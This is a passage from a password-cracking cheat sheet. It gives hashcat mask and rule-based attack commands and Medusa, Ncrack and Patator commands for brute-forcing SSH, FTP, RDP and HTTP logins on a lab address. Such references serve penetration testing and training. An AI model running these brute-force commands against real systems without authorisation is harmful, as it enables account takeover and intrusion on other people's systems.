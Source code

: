 | Mask | Description | Example |
|------|-------------|---------|
| `?l` | Lowercase letters | `hashcat -a 3 -m 0 hash.txt ?l?l?l?l` |
| `?u` | Uppercase letters | `hashcat -a 3 -m 0 hash.txt ?u?l?l?l` |
| `?d` | Digits | `hashcat -a 3 -m 0 hash.txt ?d?d?d?d` |
| `?s` | Special characters | `hashcat -a 3 -m 0 hash.txt ?l?l?s?d` |
| `?a` | All characters | `hashcat -a 3 -m 0 hash.txt ?a?a?a?a` |

### Rule-based Attacks

| Command | Description |
|---------|-------------|
| `hashcat -m 1000 hash.txt wordlist.txt -r rules/best64.rule` | Apply best64 rules |
| `hashcat -m 1000 hash.txt wordlist.txt -r rules/d3ad0ne.rule` | Apply d3ad0ne rules |
| `hashcat -m 1000 hash.txt wordlist.txt -r rules/dive.rule` | Apply dive rules |

## Other Password Cracking Tools

### Medusa - Network Authentication Cracker

| Command | Description |
|---------|-------------|
| `medusa -h 10.10.10.100 -u admin -P passwords.txt -M ssh` | SSH brute force |
| `medusa -h 10.10.10.100 -U users.txt -P passwords.txt -M ftp` | FTP credential testing |
| `medusa -h 10.10.10.100 -u admin -p password -M http -m DIR:/admin` | HTTP directory auth |

### Ncrack - Network Authentication Cracker

| Command | Description |
|---------|-------------|
| `ncrack -vv --user admin -P passwords.txt ssh://10.10.10.100` | SSH password attack |
| `ncrack -p 3389 -user administrator -P passwords.txt 10.10.10.100` | RDP brute force |
| `ncrack -p 21 --user ftp -P passwords.txt 10.10.10.100` | FTP password attack |

### Patator - Multi-protocol Brute Forcer

| Command | Description |
|---------|-------------|
| `patator ssh_login host=10.10.10.100 user=root password=FILE0 0=passwords.txt` | SSH brute force |
| `patator ftp_login host=10.10.10.100 user=admin password=FILE0 0=wordlist.txt` | FTP attack |
| `patator http_fuzz url=http://10.10.10.100/login method=POST body='user=admin&pass=FILE0' 0=passwords.txt` | HTTP POST attack |
